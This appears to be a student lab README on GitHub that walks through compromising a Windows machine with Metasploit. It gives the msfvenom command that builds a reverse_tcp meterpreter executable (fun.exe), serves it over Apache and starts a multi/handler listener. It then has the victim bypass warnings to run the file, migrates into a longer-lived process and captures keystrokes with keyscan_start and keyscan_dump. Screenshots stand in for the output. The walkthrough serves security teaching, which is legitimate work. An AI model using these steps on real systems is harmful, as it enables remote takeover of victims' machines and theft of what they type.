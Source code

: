 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:
Step 1: Install kali linux either in partition or virtual box or in live mode
Step 2: Investigate on the various categories of tools as follows:
Step 3: Open terminal and try execute some kali linux commands

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/0dd3d067-aba5-458c-9ae0-dc8287c7228e)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/d3ccdc73-0cf7-4c28-859f-30d6912bc614)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/1753dc20-b629-41be-8f4f-3059ea1ccac3)


Start apache server sudo systemctl apache2 start

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/8b15cfae-eeea-45e9-8dd5-9949e1775d08)

Check the status of apache2
Invoke msfconsole: msfconsole



![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/2b781436-eea0-4609-bd43-c0a1fbd92834)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/ad4589ab-c275-4f10-a667-d3e393339177)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/cc3b7ab2-dd6b-476c-a98b-bb2727669621)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/9a147d92-87a4-46c7-8ee7-a5df75e47463)
Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/38950493-c57d-4afb-835b-cdc946e9b0f6)

On kali give the command exploit

![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/22217eab-0577-4df0-b438-fb73c13b1ca1)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/74d5af80-b9d5-4175-ab54-6014339dcb8a)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/15d5a3da-048d-4646-a9a6-b3804542ff37)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/4d1ae16f-5053-4ab4-898e-e38e606f2b91)
keyscan_dump Shows the keystrokes captured so far.
![image](https://github.com/kavisree86/Compromising-windows-using-Metasploit/assets/145759687/95831af7-2bb6-43da-943e-360a3bdca497)





## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
